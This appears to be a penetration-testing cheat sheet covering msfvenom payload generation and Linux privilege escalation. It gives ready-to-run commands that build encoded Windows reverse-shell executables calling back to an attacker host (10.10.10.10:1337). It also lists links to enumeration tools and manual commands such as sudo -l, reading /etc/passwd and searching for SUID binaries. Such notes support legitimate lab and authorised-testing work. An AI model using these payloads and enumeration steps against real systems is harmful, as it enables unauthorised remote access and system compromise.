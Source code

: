 - msfvenom  

List payloads :  
```
msfvenom -l payloads
```

General syntax :  
```
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT -f $FILE_FORMAT > $OUTPUT_FILE
```

Reverse shell Windows :  
```
# exe
msfvenom -p windows/shell/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe > rev.exe

# additional parameters
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=$LHOST LPORT=$LPORT -b "\x00" -e x86/shikata_ga_nai -f exe > $OUTPUT_FILE
```
Example :  
`msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -b "\x00" -e x86/shikata_ga_nai -f exe > rev.exe`  

-a : architecture  
-b : bad characters  
-e : encoding  


## Privesc

Tools can help to find the way to privesc, but they shouldn't substitute manual enumeration. Make sure to always verify their result manually.  

### Linux

#### Tools  

[pspy](https://github.com/DominicBreuker/pspy)  
[LinEnum](https://github.com/rebootuser/LinEnum)  
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
[SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)  

#### Manual  

```
sudo -l 

ls -al /

uname -a

cat /etc/passwd

ls -alhR /home

find . -ls -type f

ls -al /var/www

ps -ef

find /usr/bin/ -perm -4000
```
